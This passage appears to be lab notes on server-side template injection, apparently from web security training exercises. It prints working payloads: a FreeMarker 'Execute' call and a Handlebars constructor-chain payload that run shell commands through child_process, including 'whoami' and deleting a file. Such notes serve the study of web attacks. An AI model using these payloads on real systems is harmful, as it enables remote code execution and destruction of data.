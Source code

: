 ![[file-20250508225106633.png]]
One of these class names stands out - `Execute`.
The details confirm it does what you might expect - takes input and executes it:

> public class **Execute**
> implements TemplateMethodModel  
  
Given FreeMarker the ability to execute external commands. Will fork a process, and inline anything that process sends to stdout in the template.

![[file-20250508221208203.png]]
![[file-20250508222709453.png]]
![[file-20250508222744730.png]]
Now we can delete the `morale.txt` file using 
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}
```
### Server-side template injection in an unknown language with a documented exploit
Fuzzed the `GET` request with the SSTI payloads and got error.
![[file-20250508231628586.png]]
```java
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
After URL encoding the above payload and sending a `GET` request to the server we get this.
![[file-20250508231215523.png]]
Now to delete the payload the just URL encode the payload after changing the command.
```java
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
```